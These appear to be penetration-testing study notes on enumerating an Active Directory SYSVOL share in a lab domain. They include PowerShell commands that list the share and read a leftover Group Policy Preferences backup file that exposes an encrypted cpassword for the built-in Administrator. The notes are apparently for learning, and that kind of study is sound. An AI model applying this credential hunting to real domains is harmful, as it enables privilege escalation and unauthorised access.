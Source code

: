 #### Enumerating SYSVOL Share 
- share may have files and folders on the DC
- domain policies and scripts
- default mapping to **%SystemRoot%\SYSVOL\Sysvol\domain-name**

Contents of SYSVOL
```
PS C:\Tools> ls \\dc1.corp.com\sysvol\corp.com\

    Directory: \\dc1.corp.com\sysvol\corp.com

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         9/21/2022   1:11 AM                Policies
d-----          9/2/2022   4:08 PM                scripts
```

Contents of "Policies" folder
```hlt:7
PS C:\Tools> ls \\dc1.corp.com\sysvol\corp.com\Policies\

    Directory: \\dc1.corp.com\sysvol\corp.com\Policies

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         9/21/2022   1:13 AM                oldpolicy
d-----          9/2/2022   4:08 PM                {31B2F340-016D-11D2-945F-00C04FB984F9}
d-----          9/2/2022   4:08 PM                {6AC1786C-016F-11D2-945F-00C04fB984F9}
```

Contents of *oldpolicy* folder contains *old-policy-backup.xml* file. 

Contents of *old-policy-backup.xml* file
```hlt:14
PS C:\Tools> cat \\dc1.corp.com\sysvol\corp.com\Policies\oldpolicy\old-policy-backup.xml
<?xml version="1.0" encoding="utf-8"?>
<Groups   clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}">
  <User   clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}"
          name="Administrator (built-in)"
          image="2"
          changed="2012-05-03 11:45:20"
          uid="{253F4D90-150A-4EFB-BCC8-6E894A9105F7}">
    <Properties
          action="U"
          newName=""
          fullName="admin"
          description="Change local admin"
          cpassword="+bsY0V3d4/KgX3VJdO/vyepPfAN1zMFTiQDApgR92JE"
          changeLogon="0"
          noChange="0"
          neverExpires="0"
          acctDisabled="0"
          userName="Administrator (built-in)"
          expires="2016-02-10" />
  </User>
</Groups>
```
